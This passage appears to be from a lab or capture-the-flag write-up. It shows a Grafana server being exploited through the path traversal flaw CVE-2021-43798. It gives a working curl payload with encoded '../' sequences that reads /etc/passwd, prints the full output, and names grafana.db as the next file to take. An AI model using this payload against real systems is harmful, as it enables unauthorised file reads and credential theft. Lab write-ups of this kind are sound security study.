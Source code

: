 ![Grafana version](/assets/img/version.png)

A quick Google search for this version reveals that it is vulnerable to a Path Traversal vulnerability, assigned CVE-2021-43798. This vulnerability allows an attacker to retrieve arbitrary files from the system using specially crafted URLs. For example, an attacker could attempt to access /etc/passwd to verify the vulnerability:

```bash
curl http://data.vl:3000/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
```

---

## Exploitation

The application is indeed vulnerable, and we were able to read system files. Now, we should focus on extracting sensitive files that could contain useful information. One interesting file related to Grafana is its database file, typically located at /var/lib/grafana/grafana.db.

